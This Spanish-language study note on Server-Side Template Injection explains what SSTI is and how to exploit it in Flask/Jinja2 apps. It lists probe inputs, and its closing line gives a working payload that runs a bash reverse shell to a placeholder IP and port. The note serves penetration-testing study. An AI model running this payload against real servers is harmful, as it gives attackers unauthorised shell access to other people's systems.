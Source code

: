 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **SSTI** ?

### Un **Server-Side Template Injection** ( **SSTI** ) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor. 

### Las **plantillas** de servidor son archivos que contienen código que se utiliza para generar *contenido dinámico* en una aplicación web. Los atacantes puede aprovechar una vulerabilidad **SSTI** para inyectar código malicioso en una platinllar de servidor, lo que les pertmite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la apliación web como a posibles datos sensibles. 

----

# Explotación 

### Cuando solemos ver que un campo que ingresamos, sea de formulario o url, es representado en el output de la página web y sabemos que por detras corre un framework o plantilla como **Django**, **Flask**, **Ruby on Rails**, entre otros, podemos empezar a pensar en un **SSTI**, pudiendo sacar posibles comandos a inyectar de páginas como [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

### De esta manera, supongamos que tenemos decubrimos con **whatweb** o **wapalyzer** que nuestra aplicación corre Flask, ingresamos a la app y vemos que tenemos un campo:

![[SSTI_Example.png]]

### El cual vemos que se representa en el output: 

![[SSTI_Example2.png]]

### Podemos empezar a probar cosas, en este caso probando inputs como `{{7*7}}`, `{{config.items()}}`, entre otros.  (Todos obtenidos de la sección de [python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)), en caso de que veamos un output esperado ante estos payloads, podriamos verificar si se logran ejecutar comandos del sistema con el payload para realizarlo, y en caso de que si, solo quedaria ganar acceso con algun metodo dentro de las [[Shells]]. 

### Ejemplo: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"').read() }}`
